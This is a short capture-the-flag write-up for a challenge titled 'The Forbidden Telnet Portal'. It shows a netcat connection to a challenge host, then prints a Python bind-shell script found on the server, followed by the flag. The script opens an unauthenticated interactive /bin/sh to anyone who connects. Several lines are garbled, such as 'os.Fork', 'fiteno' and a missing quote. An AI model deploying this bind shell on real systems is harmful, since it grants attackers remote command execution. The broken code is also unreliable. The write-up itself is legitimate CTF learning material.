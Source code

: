 # The-Forbidden-Telnet-Portal

## Description
> Legends spoke of a long-forgotten era when Telnet was once a common gateway into the digital world, allowing users to access remote systems and execute commands. However, as time passed, its usage faded due to security concerns, and the portals were shut down or hidden away to protect the digital realm from malicious intent.

## Solution
* We are given a domain name and a port number.
* Connect to it using netcat:  
`nc 0.cloud.chals.io <port-no>`
* We get a shell
* List the files in the directory:  
`ls`
* We find a `python` file named `bindshell.py`
* Check the contents of the file:  
`cat bindshell.py`

```python
import os
import socket

HOST = '0.0.0.0'
PORT = 9001

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()
    pid = os.Fork()
    if pid == 0:
        os.dup2(conn.fileno(), 0)
        os.dup2(conn.fiteno(), 1)
        os.dup2(conn.fileno(), 2)
        os.execve('/bin/sh', [/bin/sh', '-i'], {'PATH': 'usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin: /bin'})

# KPMG_CTF{38748f1a026ae36d35de31d8aebd1dea}
```

* Flag:  
`KPMG_CTF{38748f1a026ae36d35de31d8aebd1dea}`
